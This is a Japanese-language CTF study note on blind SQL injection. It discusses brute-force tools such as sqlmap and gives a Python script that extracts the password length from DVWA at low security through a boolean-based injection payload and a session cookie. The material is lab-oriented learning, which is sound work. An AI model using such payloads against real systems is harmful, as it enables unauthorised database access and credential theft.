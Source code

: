- CTFにおいて、dirbやnmap及びsqlmapなどで必要以上の総当たり攻撃を行うツールの利用は、IPのブロックが行われる可能性がある。

    ただ、以下の記事であるように使用している人もいるので難しいところ。。。ﾜｶﾗﾅｲｯｽ

    githubのオプション見てみたら、delay optionがあったので、これで時間かけてやれば問題ないかもしれない…

    [sqlmapでTime-Based Blind SQL Injectionをやってみる - こんとろーるしーこんとろーるぶい](https://graneed.hatenablog.com/entry/2018/11/01/003456)

    [sqlmapproject/sqlmap](https://github.com/sqlmapproject/sqlmap/wiki/Usage)

# Blind SQLinjection

- 普通のSQLinjectionのコードに対して、SQLのsubstrなどの関数を使い、その真偽によって情報を盗む。そのため、総当たり攻撃が必要となるので、ツール等が必須となる。
- 一般的には、コーディングをして解く、もしくはsqlmap等のツールを使う必要がある。

    **どちらも、ログインが必要な画面内で行う場合は、クッキーを設定する必要があるので注意。**

## example code

以下は,DVWAのsecurity level :lowでの　blind SQLを示す

![SQL%20injection/Untitled.png](SQL%20injection/Untitled.png)

- SQLの結果が真となる場合において、User id exists in the database.　という文字列が出現する。
- よって、このSQL文に対して、ANDで条件付けを行いパスワードの特定を行う。

まず、パスワードの文字数を特定する

```python
import requests
import sys
from tqdm import tqdm

args = sys.argv
url = args[1]

cookie ={
        "security":"low",
        "PHPSESSID":"fmn58hm2b3147eiui4oeebhrf3"
        }

for i in tqdm(range(1,100)):
    sql = '1\' and (select length(password) from users where user_id =1) ={counter};#'.format(counter =i)

    payload = {
            "id":sql ,
            "Submit" : "Submit"
    }

    response = requests.get(url,params=payload,cookies=cookie)
    if 'exists' in response.text:
        print i
    
```